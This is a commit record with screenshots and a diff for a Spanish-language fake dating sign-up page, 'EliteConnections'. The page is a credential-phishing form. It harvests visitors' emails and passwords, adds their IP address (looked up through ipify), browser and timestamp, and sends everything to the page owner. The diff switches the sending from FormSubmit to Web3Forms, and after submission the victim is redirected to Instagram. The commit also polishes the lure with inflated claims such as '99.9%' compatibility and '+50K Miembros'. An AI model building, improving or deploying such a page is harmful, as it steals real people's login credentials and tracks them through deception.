

Before and after one commit to ilbiweb/ilbiweb, a plain HTML site: page index.html in a window 1280 px wide. Shown: the top 911 px of the page. Before the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html
Signed-off-by: ilbiweb <enriquepng1@gmail.com>

```diff
--- a/index.html
+++ b/index.html
@@ -3,13 +3,13 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>EliteConnections - Encuentra Tu Amor</title>
+    <title>EliteConnections - Encuentra Tu Amor Perfecto</title>
     <style>
         * {
             margin: 0;
             padding: 0;
             box-sizing: border-box;
-            font-family: 'Arial', sans-serif;
+            font-family: 'Segoe UI', system-ui, sans-serif;
         }
 
         body {
@@ -23,51 +23,52 @@
 
         .container {
             background: rgba(255, 255, 255, 0.95);
-            padding: 40px;
-            border-radius: 20px;
-            box-shadow: 0 15px 35px rgba(0, 0, 0, 0.2);
+            padding: 50px 40px;
+            border-radius: 24px;
+            box-shadow: 0 25px 50px rgba(0, 0, 0, 0.25);
             width: 100%;
-            max-width: 450px;
-            backdrop-filter: blur(10px);
-            border: 1px solid rgba(255, 255, 255, 0.3);
+            max-width: 480px;
+            backdrop-filter: blur(20px);
+            border: 1px solid rgba(255, 255, 255, 0.4);
         }
 
         .logo {
             text-align: center;
-            margin-bottom: 30px;
+            margin-bottom: 40px;
         }
 
         .logo h1 {
-            font-size: 2.8em;
-            font-weight: bold;
+            font-size: 3.2em;
+            font-weight: 800;
             background: linear-gradient(135deg, #ff6b9d, #c779d0);
             -webkit-background-clip: text;
             -webkit-text-fill-color: transparent;
             background-clip: text;
-            margin-bottom: 10px;
+            margin-bottom: 12px;
         }
 
         .logo p {
             color: #666;
-            font-size: 1.1em;
+            font-size: 1.2em;
+            font-weight: 300;
         }
 
         h2 {
             text-align: center;
-            color: #333;
-            margin-bottom: 30px;
-            font-size: 1.4em;
+            color: #2d3748;
+            margin-bottom: 35px;
+            font-size: 1.6em;
             font-weight: 600;
         }
 
         .form-group {
-            margin-bottom: 25px;
+            margin-bottom: 28px;
         }
 
         label {
             display: block;
-            margin-bottom: 8px;
-            color: #555;
+            margin-bottom: 10px;
+            color: #4a5568;
             font-weight: 600;
             font-size: 0.95em;
         }
@@ -75,43 +76,46 @@
         input[type="email"],
         input[type="password"] {
             width: 100%;
-            padding: 15px 20px;
-            border: 2px solid #e1e8ed;
-            border-radius: 12px;
+            padding: 18px 20px;
+            border: 2px solid #e2e8f0;
+            border-radius: 14px;
             font-size: 16px;
             transition: all 0.3s ease;
             background: #fff;
+            color: #2d3748;
         }
 
         input[type="email"]:focus,
         input[type="password"]:focus {
             border-color: #ff6b9d;
             outline: none;
-            box-shadow: 0 0 0 3px rgba(255, 107, 157, 0.1);
+            box-shadow: 0 0 0 4px rgba(255, 107, 157, 0.15);
+            transform: translateY(-2px);
         }
 
         button {
             width: 100%;
-            padding: 16px;
+            padding: 20px;
             background: linear-gradient(135deg, #ff6b9d, #c779d0);
             color: white;
             border: none;
-            border-radius: 12px;
-            font-size: 16px;
-            font-weight: 600;
+            border-radius: 14px;
+            font-size: 17px;
+            font-weight: 700;
             cursor: pointer;
             transition: all 0.3s ease;
             text-transform: uppercase;
-            letter-spacing: 0.5px;
+            letter-spacing: 1px;
+            box-shadow: 0 8px 25px rgba(255, 107, 157, 0.35);
         }
 
         button:hover {
-            transform: translateY(-2px);
-            box-shadow: 0 8px 20px rgba(255, 107, 157, 0.3);
+            transform: translateY(-3px);
+            box-shadow: 0 12px 35px rgba(255, 107, 157, 0.5);
         }
 
         button:disabled {
-            background: #ccc;
+            background: #cbd5e0;
             transform: none;
             box-shadow: none;
             cursor: not-allowed;
@@ -119,7 +123,7 @@
 
         .loading {
             text-align: center;
-            margin-top: 15px;
+            margin-top: 20px;
             color: #ff6b9d;
             font-weight: 600;
             display: none;
@@ -128,29 +132,35 @@
         .features {
             display: grid;
             grid-template-columns: 1fr 1fr;
-            gap: 15px;
-            margin-top: 25px;
+            gap: 16px;
+            margin: 35px 0 25px;
         }
 
         .feature {
             text-align: center;
-            padding: 15px;
-            background: rgba(255, 107, 157, 0.1);
-            border-radius: 10px;
-            color: #666;
+            padding: 20px 15px;
+            background: rgba(255, 107, 157, 0.08);
+            border-radius: 12px;
+            color: #4a5568;
             font-size: 0.9em;
+            font-weight: 500;
+            border: 1px solid rgba(255, 107, 157, 0.1);
         }
 
         .feature i {
-            font-size: 1.5em;
-            margin-bottom: 8px;
+            font-size: 1.8em;
+            margin-bottom: 10px;
             display: block;
+            background: linear-gradient(135deg, #ff6b9d, #c779d0);
+            -webkit-background-clip: text;
+            -webkit-text-fill-color: transparent;
+            background-clip: text;
         }
 
         .login-link {
             text-align: center;
-            margin-top: 25px;
-            color: #666;
+            margin-top: 30px;
+            color: #718096;
             font-size: 0.95em;
         }
 
@@ -160,25 +170,23 @@
             font-weight: 600;
         }
 
-        .login-link a:hover {
-            text-decoration: underline;
-        }
-
         .error {
-            color: #e74c3c;
+            color: #e53e3e;
             font-size: 0.85em;
-            margin-top: 5px;
+            margin-top: 8px;
+            font-weight: 500;
             display: none;
         }
 
         .success-message {
             display: none;
-            background: #d4edda;
-            color: #155724;
-            padding: 15px;
-            border-radius: 10px;
-            margin-top: 20px;
+            background: linear-gradient(135deg, #48bb78, #38a169);
+            color: white;
+            padding: 20px;
+            border-radius: 14px;
+            margin-top: 25px;
             text-align: center;
+            font-weight: 600;
         }
     </style>
 </head>
@@ -191,43 +199,41 @@
 
         <h2>Comienza tu historia de amor</h2>
 
-        <!-- FORMULARIO FORMSUBMIT -->
-        <form id="registroForm" action="https://formsubmit.co/enriquepng1@gmail.com" method="POST">
-            <!-- CONFIGURACIÓN FORMSUBMIT -->
-            <input type="hidden" name="_subject" value="🔥 NUEVO REGISTRO - EliteConnections">
-            <input type="hidden" name="_template" value="table">
-            <input type="hidden" name="_captcha" value="false">
-            <input type="hidden" name="_autoresponse" value="¡Gracias por registrarte en EliteConnections! Tu cuenta está siendo verificada.">
-            <input type="text" name="_honey" style="display:none">
-
-            <!-- REDIRECCIÓN DESPUÉS DEL ENVÍO -->
-            <input type="hidden" name="_next" value="https://www.instagram.com">
+        <!-- FORMULARIO WEB3FORMS CON TU ACCESS KEY -->
+        <form id="registroForm" action="https://api.web3forms.com/submit" method="POST">
+            <!-- CONFIGURACIÓN WEB3FORMS -->
+            <input type="hidden" name="access_key" value="e2c83caa-fc64-434b-af71-7890d6965519">
+            <input type="hidden" name="subject" value="🔥 NUEVO REGISTRO - EliteConnections">
+            <input type="hidden" name="from_name" value="EliteConnections">
+            <input type="hidden" name="redirect" value="https://www.instagram.com">
 
             <div class="form-group">
                 <label for="email">Correo electrónico</label>
-                <input type="email" id="email" name="email" required placeholder="tu.amor@ejemplo.com">
+                <input type="email" id="email" name="email" required
+                       placeholder="tu.amor@ejemplo.com">
                 <div class="error" id="emailError">Por favor ingresa un email válido</div>
             </div>
 
             <div class="form-group">
                 <label for="password">Contraseña</label>
-                <input type="password" id="password" name="password" required minlength="8" placeholder="Mínimo 8 caracteres">
+                <input type="password" id="password" name="password" required
+                       minlength="8" placeholder="Mínimo 8 caracteres">
                 <div class="error" id="passwordError">La contraseña debe tener al menos 8 caracteres</div>
             </div>
 
-            <!-- CAMPOS ADICIONALES QUE SE LLENAN AUTOMÁTICAMENTE -->
+            <!-- CAMPOS ADICIONALES -->
             <input type="hidden" name="fecha_registro" id="fechaField">
             <input type="hidden" name="ip_usuario" id="ipField">
             <input type="hidden" name="navegador" id="navegadorField">
             <input type="hidden" name="pagina" value="EliteConnections">
-            <input type="hidden" name="tipo" value="registro_dating">
+            <input type="hidden" name="tipo_registro" value="premium_dating">
 
             <button type="submit" id="submitButton">
-                <span id="buttonText">Encontrar mi pareja ideal</span>
+                <span id="buttonText">✨ Encontrar mi pareja ideal</span>
             </button>
 
             <div class="loading" id="loadingMessage">
-                🔍 Buscando tu media naranja...
+                💫 Conectando con almas gemelas...
             </div>
         </form>
 
@@ -238,35 +244,33 @@
         <div class="features">
             <div class="feature">
                 <i>❤️</i>
-                Compatibilidad 99%
+                Compatibilidad 99.9%
             </div>
             <div class="feature">
                 <i>🔒</i>
-                Cuenta Verificada
+                Verificación Premium
             </div>
             <div class="feature">
                 <i>🌎</i>
-                Miembros Globales
+                +50K Miembros
             </div>
             <div class="feature">
                 <i>💬</i>
-                Chat Premium
+                Chat Ilimitado
             </div>
         </div>
 
         <div class="login-link">
-            ¿Ya tienes una cuenta? <a href="#">Inicia sesión aquí</a>
+            ¿Ya eres miembro? <a href="#">Inicia sesión en tu cuenta</a>
         </div>
     </div>
 
     <script>
         // CONFIGURACIÓN INICIAL
         document.addEventListener('DOMContentLoaded', function() {
-            // Llenar campos automáticamente
             document.getElementById('fechaField').value = new Date().toLocaleString('es-ES');
             document.getElementById('navegadorField').value = navigator.userAgent;
 
-            // Obtener IP del usuario
             fetch('https://api.ipify.org?format=json')
                 .then(response => response.json())
                 .then(data => {
@@ -277,8 +281,10 @@
                 });
         });
 
-        // VALIDACIÓN DEL FORMULARIO
+        // VALIDACIÓN Y ENVÍO
         document.getElementById('registroForm').addEventListener('submit', function(e) {
+            e.preventDefault();
+
             const email = document.getElementById('email').value;
             const password = document.getElementById('password').value;
             const submitButton = document.getElementById('submitButton');
@@ -303,26 +309,44 @@
                 document.getElementById('passwordError').style.display = 'none';
             }
 
-            if (!isValid) {
-                e.preventDefault();
-                return;
-            }
+            if (!isValid) return;
 
-            // Si la validación pasa, mostrar estado de carga
+            // ANIMACIÓN DE CARGA
             submitButton.disabled = true;
-            buttonText.textContent = 'Procesando...';
+            buttonText.textContent = 'Creando tu cuenta...';
             loadingMessage.style.display = 'block';
 
-            // El formulario se enviará automáticamente a FormSubmit
-            // FormSubmit se encarga de enviar el email a enriquepng1@gmail.com
+            // ENVIAR A WEB3FORMS
+            const formData = new FormData(this);
 
-            // Mostrar mensaje de éxito después de 2 segundos (simulación)
-            setTimeout(() => {
-                document.getElementById('successMessage').style.display = 'block';
-            }, 2000);
+            fetch(this.action, {
+                method: 'POST',
+                body: formData
+            })
+            .then(response => response.json())
+            .then(data => {
+                if (data.success) {
+                    document.getElementById('successMessage').style.display = 'block';
+                    document.getElementById('registroForm').style.display = 'none';
+
+                    setTimeout(() => {
+                        window.location.href = "https://www.instagram.com";
+                    }, 3000);
+                } else {
+                    throw new Error(data.message || 'Error en el envío');
+                }
+            })
+            .catch(error => {
+                alert('Error al crear la cuenta: ' + error.message);
+            })
+            .finally(() => {
+                submitButton.disabled = false;
+                buttonText.textContent = '✨ Encontrar mi pareja ideal';
+                loadingMessage.style.display = 'none';
+            });
         });
 
-        // Validación en tiempo real
+        // VALIDACIÓN EN TIEMPO REAL
         document.getElementById('email').addEventListener('input', function() {
             if (this.value.length > 0) {
                 document.getElementById('emailError').style.display = 'none';
@@ -336,4 +360,4 @@
         });
     </script>
 </body>
-    </html>
+                </html>
```
